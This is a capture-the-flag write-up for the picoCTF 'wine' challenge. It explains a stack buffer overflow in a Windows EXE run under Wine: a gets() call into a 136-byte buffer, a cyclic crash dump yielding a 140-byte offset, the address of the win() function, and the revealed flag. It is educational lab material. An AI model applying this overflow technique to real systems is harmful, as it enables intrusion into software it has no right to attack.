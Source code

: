 # wine

Author: David

## Description

Challenge best paired with wine.
I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using [host, port]

## Solution

"Wine" in the challenge title and description refers to the `wine` application that can be installed on Linux. This allows EXE files to run on Linux systems, even though those files were meant for Windows.
Run the program with `wine`.
```
$ wine vuln.exe 
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Create a project in Ghidra and examine the `main()` function. Eventually, `main()` calls `vuln()`, and the code for that function looks like this:
```
void _vuln(void)

{
  char local_8c [136];
  
  _puts("Give me a string!");
  _gets(local_8c);
  return;
}
```
This allocates 136 characters for a variable called `local_8c`, which the program receives from us through the (very insecure) `gets()` function. This is the basis of the exploit. 
A simple buffer overflow challenges like this one requires only a few pieces of information:
    1. How many padding characters do we need to full the buffer?
    2. Where to we need to jump, or what to we need to overwrite?
    3. How is the exploit put together?

### Determining the number of characters...
This can be done with `cyclic`. (From `pwntools`; can be accessed directly from the command line.)
Create a cyclic string of 200 characters with `cyclic 200`, and then pipe that string into the program as input. When the program crashes, close wine's GUI debugger, and view the error information in the terminal. Here's the beginning of that output:
```
$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab" | wine ./vuln.exe 
Give me a string!
wine: Unhandled page fault on read access to 6261616B at address 6261616B (thread 0009), starting debugger...
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe20 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fd90 EBX:00230f14 ECX:0064fd80 EDX:7fa358b8
 ESI:00000040 EDI:00111874
Stack dump:
0x0064fe20:  6261616c 6261616d 6261616e 6261616f
0x0064fe30:  62616170 62616171 62616172 62616173
0x0064fe40:  62616174 62616175 62616176 62616177
0x0064fe50:  62616178 62616179 00230f00 00111874
0x0064fe60:  0064fe98 00000000 00000000 00000000
0x0064fe70:  00000000 00000000 00000000 00000000
```

Notice - "read access at "6261616B..." - those represent characters from our cyclic string, represented in hex. Luckily, `cyclic -l 0x6261616B` will tell us that this represents 140 characters. But what do we write?

### Writing to the win function
In CTF binary exploitation challenges, the goal of the exploit might be to redirect the program to the a "win" or "printflag" function. In this case it's a `win()` function.
`objdump -d vuln.exe` shows us the dissassembler output so we can find the address of the function. Below, I've edited the command for brevity in the output:
```
$ objdump -d vuln.exe | grep _win
00401530 <_win>:
  401551:	75 18                	jne    40156b <_win+0x3b>
  ```

0x0401530 is the address we need to write in order to move to the `win()` function.

### Notes on building the exploit 
* The address we include in our exploit needs to be packed in a specific way for the program to interpret it correctly. There are issues in doing this easily in Python3, so the script below works in Python2, and all imports are built-in.
* Wine apparently takes quite a while to load over the server. I've noticed it's anywhere from 1 to 15 seconds, so I've set the program to wait 15 seconds before trying to send or receive anything.
* Once sent, the our script will collect the flag and print it to our screen, and the connection between our machine and the server will be closed.

[wine_exploit.py](scripts/wine_exploit.py)

**Flag: picoCTF{Un_v3rr3_d3_v1n_1b40efad}**
